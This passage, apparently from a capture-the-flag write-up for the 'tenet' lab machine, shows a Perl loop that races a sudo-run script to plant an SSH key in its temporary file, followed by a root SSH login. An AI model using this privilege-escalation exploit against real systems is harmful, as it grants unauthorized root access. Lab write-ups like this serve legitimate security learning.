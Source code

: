 I could write a loop to create that race condition. I'm terrible at bash so I wrote it in perl since it's available on the machine but I'm sure the same idea works in other languages:

```perl
use warnings;
use strict;

while (1) {
        system("sudo  /usr/local/bin/enableSSH.sh &");
        my @tmp = glob("/tmp/ssh-*");
        if (!@tmp) {
                #print "file not found\n";
                next;
        }
        my $file = $tmp[0];
        print "found $file\n";
        open(my $fh, ">>", $file) or die $!;
        say $fh 'YOUR SSH KEY'; # REPLACE THIS WITH SSH PUBKEY
        close $fh;
}
```

So basically we have an infinite loop to run the script in the background, and at the same time find the `/tmp` file it creates and write our own ssh key in there.

Let's run it:

`perl script.pl`

Then while it is running, we can open a new ssh connection as root in another terminal:

```
$ ssh root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Feb 11 14:37:46 2021
root@tenet:~#
```

Congrats, you are root!

```
root@tenet:~# cat root.txt
```

